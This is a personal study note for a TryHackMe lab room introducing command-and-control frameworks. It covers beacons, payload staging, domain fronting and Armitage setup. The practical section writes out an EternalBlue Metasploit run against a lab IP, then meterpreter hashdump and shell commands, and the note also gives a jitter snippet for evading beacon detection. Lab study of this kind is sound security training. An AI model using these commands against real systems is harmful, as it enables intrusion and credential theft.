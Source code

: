 # room
https://tryhackme.com/room/introtoc2

# task 1 - intro
* c2 - command and control

# task 2 - command and control framework structure
* c2 - command and control
* c2 framework - at the basic level a server that listens for many victim call backs for reverse shells
* c2 server - serves as a hub for agents to call back to
* c2 agent - calls back to the c2 server, reaches out to the c2 server for instruction, implements pseudo commands to make the operators life easier
* listener - application running on a c2 server waiting for a call back
* beacon - the process of a c2 agent calling back to the listener
* agent call back obfuscation
    * analysts, AV, and next gen firewalls look at the beacon rate to find a pattern
    * introducing jitter allows the beacon pattern to be more randomized
    * example
        ```
        import random

        sleep = 60
        jitter = random.randint(-30,30)
        sleep = sleep + jitter
        ```
* payload types
    * stageless payloads
        * simplest
        * contains full c2 agent
        * calls back to the c2 server and begins beaconing immediately
        * example
            * victim downloads and executes the dropper
            * beaconing to the c2 server begins
    * staged payloads
        * requires callback to c2 server to download additional parts of the c2 agent
        * the dropper is dropped onto the victim machine to download the second stage of the staged payload
        * easier to obfuscate code to bypass AV
        * example
            * victim downloads and executes the dropper
            * dropper calls back to c2 server for stage 2
            * c2 server sends stage 2 back to victim
            * stage 2 is loaded into memory on victim machine
            * c2 beaconing starts
* payload formats
    * powershell scripts
        * may contain c# code
    * hta files
    * jscript files
    * vba, vbs
    * ms office documents
* modules
    * modules are the core of a c2 framework and make it more extensible and flexible
    * post exploitation modules
        * modules that deal with anything after the initial point of compromise
    * pivoting modules
        * makes it easier to access restricted network segments
* other fundamentals
    * domain fronting
        * utilizes a known good host to hide the malicious host
            * cloudflare
    * c2 profiles
        * allows a user to control specific elements of the incoming HTTP request

# task 3 - common c2 frameworks
* free
    * metasploit
    * armitage
    * powershell empire / starkiller
    * covenant
    * sliver
* paid
    * cobalt strike
    * brute ratel
* resources
    * https://howto.thec2matrix.com/

# task 4 - setting up a c2 framework
* setting up armitage
    * cd /opt
    * git clone https://gitlab.com/kalilinux/packages/armitage.git
    * cd armitage
    * bash package.sh
    * ls -lrta ./release/unix
    * sudo systemctl start postgresql
    * msfdb delete
    * msfdb init
    * sudo /opt/armitage/release/unix/./teamserver 10.0.2.15 abc123
    * examples
        * teamserver - used to start the c2 server
        * armitage - used as the c2 agent

# task 5 - c2 operation basics
* c2 management interface should not be public
* ssh port forward
    * ssh -L 55553:127.0.0.1:55553 root@1.2.3.4
* listener types
    * standard listener - tcp or udp
    * http/https listeners - useful when traffic inspection is in place
    * dns listener - useful when a device cannot easily access the Intenet
    * smb listener - useful when network segments are restricted

# task 6 - practical
* practical
    * enumeration with nmap
        ```
        nmap -A -T4 -Pn 10.10.133.49 -oG nmap.txt
        ```
    * machine is vulnerable to eternal blue
        ```
        msfconsole
        search blue
        use 13
        options
        set rhosts 10.10.133.49
        set lhost tun0
        run
        ```
    * meterpreter shell
        ```
        meterpreter > sysinfo
        Computer        : TEDS-PC
        OS              : Windows 7 (6.1 Build 7600).
        Architecture    : x64
        System Language : en_US
        Domain          : WORKGROUP
        Logged On Users : 0
        Meterpreter     : x64/windows

        meterpreter > hashdump

        meterpreter > shell
        ```

# task 7 - advanced c2 setups
* redirectors
* redirector setup
    * rewrite
    * proxy
    * proxy_http
    * headers
* resources
    * msfvenom --list-options -p windows/meterpreter/reverse_http

# task 8 - conclusion
* conclusion